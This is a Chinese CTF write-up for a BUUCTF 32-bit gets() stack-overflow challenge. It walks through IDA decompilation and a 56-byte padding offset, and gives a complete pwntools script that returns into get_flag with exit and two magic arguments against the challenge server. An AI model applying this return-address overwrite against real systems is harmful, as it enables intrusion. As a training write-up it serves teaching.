 ### Gets 栈溢出（32 位程序返回）

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/677f361dd0e0a243d4f25422.jpg)

扔进 IDA32 中反编译，直接给出了 Gets

![](https://pic1.imgdb.cn/item/677f368cd0e0a243d4f25456.jpg)

在左边看到有一个 get_flag 函数，进去看看

![](https://pic1.imgdb.cn/item/677f36a5d0e0a243d4f2545d.jpg)

可以看到 if 条件成立后就能读取 flag 了

回头去看 v4 缓存区的栈情况

![](https://pic1.imgdb.cn/item/677f3715d0e0a243d4f25482.jpg)

首先填充 56 个字节垃圾数据

argc 就是 a1，argv 就是 a2

![](https://pic1.imgdb.cn/item/677f3747d0e0a243d4f2548b.jpg)

注意的一点是获取 flag 方式是打开文件读取

如果你非正常退出是没有输出的

我们需要利用 exit 函数

在函数表中关键字定位找到 exit 的起始位置

![](https://pic1.imgdb.cn/item/677f37cbd0e0a243d4f254b1.jpg)

调用函数还需要传入两个参数

**32 位程序是返回地址在参数前面**

```python
from pwn import *

p = remote('node5.buuoj.cn',27494)

get_flag_addr = 0x080489A0
exit_addr = 0x804E6A0
a1 = 0x308CD64F
a2 = 0x195719D1

payload = b'a' * 56 + p32(get_flag_addr) + p32(exit_addr) + p32(a1) + p32(a2)

p.sendline(payload)
p.interactive()
```

成功拿到 flag

![](https://pic1.imgdb.cn/item/677f3a55d0e0a243d4f256fc.jpg)